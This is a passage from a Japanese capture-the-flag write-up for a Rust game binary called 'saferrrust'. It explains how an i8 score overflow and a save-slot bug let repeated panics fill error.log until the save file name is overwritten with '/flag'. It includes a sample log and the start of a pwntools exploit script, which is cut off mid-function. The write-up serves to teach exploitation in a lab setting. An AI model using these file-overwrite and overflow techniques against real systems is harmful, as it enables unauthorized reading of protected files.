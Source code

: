 このセーブファイル選択に脆弱性があり、0 と入力するすると `error.log` をセーブファイルとして認識し、そしてそれをバイナリの領域にマップしてしまいます。

`error.log` がマップされる領域には `"savefile"` というファイル名自体も保存されているため、これを `/flag` とすることでフラグファイルをセーブファイルとして読み込むことができます。savefile の先頭にはプレイヤーネームが書き込まれ、それが毎回表示されるので、フラグをセーブファイルとして読み込むと、このときにフラグが表示されます。
ただ、普通にプレイするだけではそんな沢山のエラーを起こせないし、起こしたとしても異常終了してしまいます。

では実際にどうやって `error.log` に、`"savefile"` を書き換えるだけの大量のエラーを起こさせるかですが、数当てゲームの得点計算にも脆弱性があります。
おそらく、得点は i8 で管理されており、オーバーフローが発生する場合を条件分岐して弾いているのですが、点数がちょうど 28 点のとき、128 になってエラーが発生します。このエラーはプログラムを終了しないようにされているので、何度も同じエラーを発生させることができます。この時の `error.log` は次のようになります。

```
thread 'main' panicked at src/main.rs:139:21:
attempt to add with overflow
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
==========
CURRENT STATE
Your name: "player_name"
Your total score: 28
thread 'main' panicked at src/main.rs:139:21:
attempt to add with overflow
==========
CURRENT STATE
Your name: "player_name"
Your total score: 28
thread 'main' panicked at src/main.rs:139:21:
attempt to add with overflow
==========
CURRENT STATE
Your name: "player_name"
Your total score: 28
thread 'main' panicked at library/std/src/io/stdio.rs:1021:9:
failed printing to stdout: Input/output error (os error 5)
```

いい感じにユーザの入力が載っているので、あとはオフセットを調整して行けばフラグを得ることができます。

exploit.py

```python
from pwn import *
import re

binary = ELF('./saferrrust', checksec=True)

def extract_two_integers(text):
    numbers = re.findall(r'\d+', text)
    return int(numbers[0]), int(numbers[1])

def fail(io) -> int:
    io.sendline(b"1")
    io.readuntil(b"score is ")

    current = int(io.readline().strip()[: -1])

    io.readuntil(b"between ")
    r = io.readuntil(b"(").decode()
    a, b = extract_two_integers(r)

    io.sendlineafter(b'!\n', str(b).encode())

    return current - 1

def correct(io) -> int:
    io.sendline(b"1")
    io.readuntil(b"score is ")

    current = int(io.readline().strip()[: -1])
```